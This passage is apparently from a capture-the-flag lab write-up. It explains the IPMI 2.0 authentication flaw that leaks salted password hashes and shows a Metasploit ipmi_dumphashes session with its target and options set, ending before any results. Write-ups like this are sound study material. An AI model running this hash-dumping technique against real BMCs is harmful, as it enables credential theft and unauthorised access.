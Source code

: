 > More recently, Dan Farmer identified an [even bigger
> issue](http://fish2.com/ipmi/remote-pw-cracking.md) with the IPMI
> 2.0 specification. In short, the authentication process for IPMI 2.0
> mandates that the server send a salted SHA1 or MD5 hash of the
> requested user's password to the client, prior to the client
> authenticating. You heard that right - the BMC will tell you the
> password hash for any valid user account you request. This password
> hash can broken using an offline bruteforce or dictionary attack.
> Since this issue is a key part of the IPMI specification, there is no
> easy path to fix the problem, short of isolating all BMCs into a
> separate network. The *ipmi_dumphashes* module in the Metasploit
> Framework can make short work of most BMCs.

#### With MSF

Both the HackTricks post and the Rapid7 post mention a MSF module that
can collect these hashes:



    msf6 auxiliary(scanner/ipmi/ipmi_version) > use auxiliary/scanner/ipmi/ipmi_dumphashes 
    msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.10.11.124
    rhosts => 10.10.11.124
    msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > options

    Module options (auxiliary/scanner/ipmi/ipmi_dumphashes):

       Name                  Current Setting                                                                 Required  Description
       ----                  ---------------                                                                 --------  -----------
       CRACK_COMMON          true                                                                            yes       Automatically crack common passwords as they are obtained
       OUTPUT_HASHCAT_FILE                                                                                   no        Save captured password hashes in hashcat format
       OUTPUT_JOHN_FILE                                                                                      no        Save captured password hashes in john the ripper format
       PASS_FILE             /opt/metasploit-framework/embedded/framework/data/wordlists/ipmi_passwords.txt  yes       File containing common passwords for offline cracking, one per line
       RHOSTS                10.10.11.124                                                                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
       RPORT                 623                                                                             yes       The target port
       SESSION_MAX_ATTEMPTS  5                                                                               yes       Maximum number of session retries, required on certain BMCs (HP iLO 4, etc)
       SESSION_RETRY_DELAY   5                                                                               yes       Delay between session retries in seconds
       THREADS               1                                                                               yes       The number of concurrent threads (max one per host)
       USER_FILE             /opt/metasploit-framework/embedded/framework/data/wordlists/ipmi_users.txt      yes       File containing usernames, one per line


